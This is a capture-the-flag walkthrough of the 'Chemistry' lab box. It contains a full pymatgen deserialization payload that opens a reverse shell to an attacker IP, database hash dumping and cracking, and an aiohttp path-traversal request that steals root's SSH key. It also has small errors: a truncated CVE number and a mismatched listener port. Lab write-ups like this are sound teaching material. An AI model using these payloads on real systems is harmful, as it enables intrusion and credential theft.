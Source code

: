 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC Default Scripts
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with Login/Register options.

![webPage](Images/webPage.png)

Next, register and login to the site. This brings up a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online will find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
We can see the user flag on the user Rosa account. Unfortunately, we do not have access to view/read the file.

![webShell](Images/webShell.png)


## User Flag

From here, we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```
![appPy](Images/appPy.png)

Read the database.db file using the sqlite3 command. From this, we can see multiple users and their password hashes. We are interested in Rosa and her password hash.
```
$ ls
app.py
instance
static
templates
uploads
$ cd instance
$ ls
database.db
$ sqlite3 database.db .dump
```
![databaseDb1](Images/databaseDb1.png)

![databaseDb2](Images/databaseDb2.png)

We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net which will check and see if they have the password for the provided password hash.

![crackStation](Images/crackStation.png)

Now we have the password for the rosa user account. We know from the nmap scan that SSH port 22 is open on the box.
We can try and access the box via SSH with the rosa account.
```
ssh rosa@<target IP>

cat user.txt
```
The login was successful. We can now read the user.txt file and obtain the user flag.

![rosaSSH](Images/rosaSSH.png)


## Root Flag

We can check locally running network services using the below command. This shows us that we have a service (likely a web server) running on 8080 (localhost).

```
ss -lntp
curl localhost:8080
```

![localhost](Images/localhost.png)

Now, we will change to a local shell on our attacking machine and run the below command to forward the service running on port 8080 on the chemistry box to our attacking machine on port 4000.

```
ssh -L 4000:localhost:8080 rosa@chemistry.htb

```
![portForward](Images/portForward.png)

Next, we can check details on the server and technology it is using. 

```
whatweb localhost:4000
```
![whatWeb](Images/whatWeb.png)

We see that it is using aiohttp/3.9.1. Checking for vulnerabilites on this and we can find an exploit for CVE-2024–23334. 
Reading the vulnerability we can see that a curl command like below can exploit the path traversal vulnerability.
Again, these commands are run on the local attacking machine.

```
curl -s --path-as-is "http://localhost:4000/assets/../../../root/root.txt"
```
![rootTxt](Images/rootTxt.png)

This could also be used to gain root access by reading SSH private key for root.
```
curl -s --path-as-is "http://localhost:4000/assets/../../../../root/.ssh/id_rsa" > root.pem
chmod 600 root.pem
ssh -i root.pem root@chemistry.htb
```
![rootKey](Images/rootKey.png)

As we are logging in as root, we can simply cat root.txt to obtain the flag.

![rootLog](Images/rootLog.png)


Congratulations Chemistry has been successfully Pwned!

![pwned](Images/pwned.png)

